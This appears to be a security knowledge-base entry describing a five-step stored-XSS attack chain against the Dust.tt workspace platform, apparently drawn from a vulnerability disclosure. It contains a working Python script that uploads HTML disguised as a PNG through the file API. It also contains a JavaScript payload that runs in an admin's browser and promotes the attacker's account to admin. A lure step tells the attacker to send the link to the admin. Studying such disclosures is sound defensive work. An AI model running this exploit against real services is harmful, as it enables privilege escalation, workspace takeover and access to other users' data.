

---
tags:
  - xss
  - stored-xss
  - file-upload
  - privilege-escalation
  - workspace-takeover
type: attack_chain
tools:
  - '[[tools/Python]]'
  - '[[tools/requests]]'
  - '[[tools/requests_toolbelt]]'
  - '[[tools/Web-Browser]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Set-Up-Test-Workspace-and-Accounts]]'
  - '[[procedures/Upload-Malicious-HTML-File-via-API]]'
  - '[[procedures/Share-Malicious-URL-with-Admin]]'
  - '[[procedures/Trigger-XSS-for-Privilege-Escalation]]'
step_count: 5
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:56:03.308Z'
description: >-
  A multi-stage attack exploiting a stored XSS vulnerability in Dust's file
  upload API to upload malicious HTML disguised as images, share the URL, and
  execute JavaScript in an admin's browser to escalate privileges and takeover
  the workspace.
id: cbc17575-2a39-4b82-8f94-4eee84fd96f6
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Privilege Escalation]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[JavaScript]]'
---
---

# Stored XSS in File Upload Leading to Privilege Escalation and Workspace Takeover

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in Dust's file upload functionality to achieve privilege escalation and full workspace control.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python]]
- [[tools/requests]]
- [[tools/requests_toolbelt]]
- [[tools/Web-Browser]]

### Target Environment

- Dust.tt platform (web-based AI workspace)
- Access to Dust API endpoints
- Valid session cookies for member account

### Initial Access Requirements

- Administrative access to create or use a workspace
- Ability to invite member accounts
- Network access to https://dust.tt

## Detailed Attack Procedures

### Step 1: Set Up Test Workspace and Accounts
procedure: [[procedures/Set-Up-Test-Workspace-and-Accounts]]

**Objective**: Prepare the environment by creating a workspace and inviting a dummy member account to simulate the attacker.

**Instructions**: Log in as admin to create or select an existing workspace on dust.tt. Then invite a secondary account as a regular member.

**Expected Output**: Workspace SID available and dummy account invited with member role.

**Success Indicators**:
- Workspace created or accessed with admin privileges
- Dummy account confirmed as member

### Step 2: Upload Malicious HTML File via API
procedure: [[procedures/Upload-Malicious-HTML-File-via-API]]

**Objective**: Use the dummy account to upload a malicious HTML file disguised as a PNG image via the file upload API, exploiting lack of MIME-type validation.

**Instructions**: Prepare a Python script with the malicious HTML file (xss.html containing JS payload). Execute the upload using [[commands/initiate-file-upload-metadata]] to get presigned URL, then [[commands/upload-file-multipart]] to send the file with text/html content-type but .png filename.

```python
import requests
from requests_toolbelt.multipart.encoder import MultipartEncoder
cookies = {'appSession': '<dummy_account_session>'}
json_data = {'contentType': 'text/html', 'fileName': 'xss_poc.png', 'fileSize': 7331, 'useCase': 'conversation'}
response = requests.post('https://dust.tt/api/w/<workspace_sid>/files', cookies=cookies, json=json_data)
print(response.text)
uploadUrl = response.json()['file']['uploadUrl']

cookies = {'appSession': '<dummy_account_session>'}
m = MultipartEncoder(fields={'file': ('xss_poc.png', open('Dust/xss.html', 'rb'), 'text/html')})
headers = {'accept': '*/*', 'accept-language': 'nb-NO,nb;q=0.9,no;q=0.8,nn;q=0.7,en-US;q=0.6,en;q=0.5', 'cache-control': 'no-cache', 'content-type': m.content_type, 'origin': 'https://dust.tt', 'pragma': 'no-cache', 'priority': 'u=1, i', 'referer': 'https://dust.tt/w/<workspace_sid>/assistant/new', 'sec-ch-ua': '"Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"', 'sec-ch-ua-mobile': '?0', 'sec-ch-ua-platform': '"macOS"', 'sec-fetch-dest': 'empty', 'sec-fetch-mode': 'cors', 'sec-fetch-site': 'same-origin', 'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36'}
response = requests.post(url=uploadUrl, headers=headers, cookies=cookies, data=m)
print(f'[*] URL TO SHARE:\n{response.json()["file"]["downloadUrl"]}?action=view')
```

**Expected Output**: JSON response with downloadUrl for the uploaded file.

**Success Indicators**:
- Upload successful without errors
- Download URL generated

### Step 3: Share Malicious URL with Admin
procedure: [[procedures/Share-Malicious-URL-with-Admin]]

**Objective**: Distribute the malicious file URL to the admin account to lure them into visiting it.

**Instructions**: Copy the downloadUrl from the upload response and send it via chat, email, or workspace sharing to the admin.

**Expected Output**: Admin receives and potentially visits the URL.

**Success Indicators**:
- URL shared successfully
- Admin confirms receipt or interaction

### Step 4: Admin Visits Link and Triggers XSS
procedure: [[procedures/Trigger-XSS-for-Privilege-Escalation]]

**Objective**: When the admin views the file, the embedded JavaScript executes in their browser, fetching user data and promoting the attacker to admin.

**Instructions**: Admin opens the URL in their web browser. The JS automatically runs: first [[commands/fetch-user-data-js]] to get workspace and attacker IDs, then [[commands/promote-to-admin-js]] to escalate privileges.

```javascript
fetch('https://dust.tt/api/user',{method:'GET',headers:{'accept':'*/*','x-commit-hash':'41c0391'},credentials:'include'}).then(r=>r.json()).then(user=>{const workspaceId=user.workspaces[0].sId;const attackerUserId='<attacker_id>';fetch(`https://dust.tt/api/w/${workspaceId}/members/${attackerUserId}`,{method:'POST',headers:{'content-type':'application/json','accept':'*/*','x-commit-hash':'41c0391'},credentials:'include',body:JSON.stringify({role:"admin"})})});
```

**Expected Output**: Attacker account promoted to admin role.

**Success Indicators**:
- JS executes without errors
- API calls succeed, privileges escalated
- Workspace admin access confirmed for attacker

### Step 5: Validate Takeover

**Objective**: Confirm full control over the workspace post-escalation.

**Instructions**: Log in as the escalated account and access admin-only features, such as managing members or sensitive data.

**Expected Output**: Full admin dashboard access.

**Success Indicators**:
- Ability to modify workspace settings
- Access to all files and conversations

## Attack Chain Summary

### Key Achievements

1. Successful upload of executable HTML via file API
2. Triggering of stored XSS in admin's browser session
3. Privilege escalation from member to admin
4. Complete workspace takeover enabling data access and control

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[JavaScript]] JavaScript

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Privilege Escalation]] Privilege Escalation

---

*Last updated: 2023-10-01T00:00:00Z*
